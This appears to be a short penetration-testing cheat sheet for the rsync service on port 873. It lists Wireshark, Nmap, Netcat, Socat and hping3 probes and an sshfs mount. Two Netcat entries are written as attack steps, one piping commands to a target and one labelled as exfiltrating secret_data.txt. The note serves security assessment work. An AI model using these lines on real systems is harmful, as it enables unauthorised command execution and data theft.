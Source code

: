 ### [[Wireshark]]
- **Wireshark Packet Capture:**
	```bash
	wireshark -i <interface> -f "tcp port 873"
	```

### [[Nmap]]
- **Basic Nmap Scan:** Scan target on specified port to verify if service is on.
    ```bash
    nmap <target_ip> -p 873
    ```

### [[NetCat]]
 - **Netcat TCP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 873
    ```
- **Netcat UDP Connect:** Simple test to verify port service is running and responding.
    ```bash
    nc <target_ip> 873 -u
    ```
- **Execute Commands:** Execute commands on target.
	```bash
	echo "<command>" | nc <target_ip> 873
	```
- **Exfiltrate Data:** Exfiltrate data over specified port.
	```bash
    nc <target_ip> 873 < secret_data.txt
    ```

### [[SoCat Cheat Sheet]]
- **Socat TCP Connect:** Simple tests to verify port service is running and responding.
	```bash
	socat - TCP:<target_ip>:873
	```

### [[HPing3 Cheat Sheet]]
- **Send UDP Packet:** Send a single UDP packet to the service.
    ```bash
    hping3 -2 <target_ip> -p 873 -c 1
    ```

## Other Techniques

### Mount rsync Share Locally
- **Mount Locally:** Using sshfs to mount an rsync share over SSH.
	```bash
	sshfs <username>@<target_ip>:/remote/directory /local/mountpoint
	```
